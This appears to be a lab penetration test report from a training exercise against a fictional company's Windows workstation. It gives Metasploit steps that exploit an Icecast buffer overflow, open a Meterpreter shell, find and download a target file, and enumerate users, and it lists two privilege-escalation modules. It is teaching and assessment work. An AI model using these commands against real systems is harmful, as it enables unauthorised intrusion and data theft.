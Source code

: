 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

-Run the Nmap command that performs a service and version scan against the target.

..* **Answer:** nmap -sV 192.168.0.20

 ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

-Run the SearchSploit commands to show available Icecast exploits.

 **Answer:** searchsploit icecast

 ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

-Run the command that starts Metasploit:

 **Answer:** msfconsole

 ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

-Run the command to search for the Icecast module:

 **Answer:** search icecast

 ![search_icecast](Screenshots/search_icecast_command.png)
 
-Run the command to use the Icecast module:

 **Answer:** use 0

 ![use](Screenshots/use_0_command.png)
 
-Run the command that sets the RHOST:

 **Answer:** set RHOST 192.168.0.20

 ![RHOST](Screenshots/use_rhost_command.png)
 
-Run the command that runs the Icecast exploit.

 **Answer:** exploit

 ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

-Run the command that performs a search for the secretfile.txt on the target.

 **Answer:** search -f *secretfile*.txt

 ![secretfile](Screenshots/secretfile_command.png)

-Run the command to performs a search for the recipe.txt on the target:

 **Answer:** search -f *recipe*.txt

 ![recipe](Screenshots/recipe_command.png)

-Run the command that ex-filtrates the recipe*.txt file:

 **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

 ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

Verify that you have successfully downloaded the file.

 **Verification:**

 ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

-Run the command to use Meterpreter’s local exploit suggester.

 **Answer:** run post/multi/recon/local_exploit_suggester

 ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

-Run a Meterpreter post script that enumerates all logged on users.

 **Answer:** run post/windows/gather/enum_logged_on_users

 ![enum_users](Screenshots/logged_on_users_command.png)

-Run the command to open a Meterpreter shell and gather system information for the target.

 **Answer:** shell

 ![shell](Screenshots/shell_command.png)

-Run the command that displays the target's computer system information:

 **Answer:** systeminfo

 ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

 ![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

 ![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 

